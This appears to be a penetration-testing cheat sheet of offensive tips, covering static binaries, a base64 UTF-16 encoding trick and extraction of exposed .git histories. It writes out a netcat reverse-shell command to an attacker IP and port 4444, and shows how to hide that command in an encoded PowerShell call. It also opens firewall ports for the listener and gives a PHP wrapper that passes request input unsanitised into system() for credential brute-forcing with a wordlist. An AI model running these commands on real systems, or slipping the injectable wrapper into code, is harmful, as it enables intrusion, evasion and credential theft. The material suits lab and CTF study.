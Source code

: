 

# Tips

## Static binaries

Tools like `socat`, `nmap`, ... are rarely installed on machines, however you can upload a static binary and use it.

**List :** ag/the_silver_searcher, binutils, file, ht, nano, nmap, p0fv3, pv(PipeViewer), python, socat, strace, tcpdump, yasm.

**Link :** [github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries)

## Windows UTF16 Little Endian

```bash
$ echo -n 'c:\windows\temp\nc.exe 10.10.10.4 4444 -e powershell' | iconv -t utf-16le | base64 -w 0
YwA6AFwAdwBpAG4AZAB...

C:> powershell -e YwA6AFwAdwBpAG4AZAB...
```

```powershell
$command = 'c:\windows\temp\nc.exe 10.10.10.4 4444 -e powershell'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
$encodedCommand
```

Thanks `@xThaz`

## Extract files from .git

Using git :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git --work-tree=$(pwd) checkout HEAD^1 # checkout to a random commit
HEAD is now at 82dfc97 Initial Commit for the back-end
$ git --work-tree=$(pwd) checkout master # come back to the last commit
Previous HEAD position was 82dfc97 Initial Commit for the back-end
Switched to branch 'master
$ ls
css  favicon.png  fonts  img  index.html  js  resources
```

Using [GitTools](https://github.com/internetwache/GitTools) :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git clone https://github.com/internetwache/GitTools
[...]
$ bash GitTools/Extractor/extractor.sh web/ output/
[...]
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[...]
$ ls output
0-70dde80cc19ec76704567996738894828f4ee895
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
$ ls output/0-70dde80cc19ec76704567996738894828f4ee895
commit-meta.txt  css  favicon.png  fonts  img  index.html  js
```

## Add firewall rule

### RedHat / CentOS

```bash
$ firewall-cmd --zone=public --add-port PORT/tcp
$ firewall-cmd --zone=public --add-port 4444/tcp
```

### Windows

```powershell
C:\> netsh advfirewall firewall add rule name="portfwd" dir=in action=allow protocol=tcp localport=20000
Ok.
```

## Bruteforce whatever you want

```php
$ cat index.php
<?php

$pass = $_REQUEST['pass'];
system("memccat --username toto --password $pass --servers 10.10.10.190");

?>
$ php -S localhost:8000
[Thu Feb 10 18:29:12 2022] PHP 8.1.2 Development Server (http://localhost:8000) started

$ ffuf -u 'http://localhost:8000?pass=FUZZ' -w /opt/rockyou.txt -fs 40
```